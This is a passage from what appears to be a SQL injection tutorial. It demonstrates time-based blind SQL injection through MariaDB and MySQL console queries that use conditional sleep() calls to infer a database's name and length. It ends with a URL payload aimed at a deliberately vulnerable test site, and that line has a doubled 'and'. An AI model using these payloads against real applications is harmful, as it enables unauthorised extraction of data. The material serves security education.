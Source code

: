 

##### Time - Time/Sleep Based

  ```
  MariaDB [dark]> use y;
  Database changed
  MariaDB [y]> show tables;
  +-------------+
  | Tables_in_y |
  +-------------+
  | users       |
  +-------------+
  1 row in set (0.001 sec)
  
  MariaDB [y]> select * from users;
  +----------+
  | name     |
  +----------+
  | sherwin  |
  | analette |
  | reine    |
  +----------+
  3 rows in set (0.000 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
  Empty set (2.009 sec)
  
  MariaDB [y]> select * from users where name="sherwin" and if(database()="z",sleep(2),sleep(5));
  Empty set (5.010 sec)
  ```

**If command**

```
mysql> select * from users where name="sherwin" and if(database()="a",sleep(2),sleep(5));
Empty set (5.01 sec)

mysql> select * from users where name="sherwin" and if(database()="y",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="1",sleep(2),sleep(5));
Empty set (2.00 sec)

mysql> select * from users where name="sherwin" and if(length(database())="2",sleep(2),sleep(5));
Empty set (5.00 sec)
```

````
http://testphp.vulnweb.com/listproducts.php?cat=2 and and if(length(database())="6",sleep(2),sleep(5));
````



#### 3. Out of Band SQLi
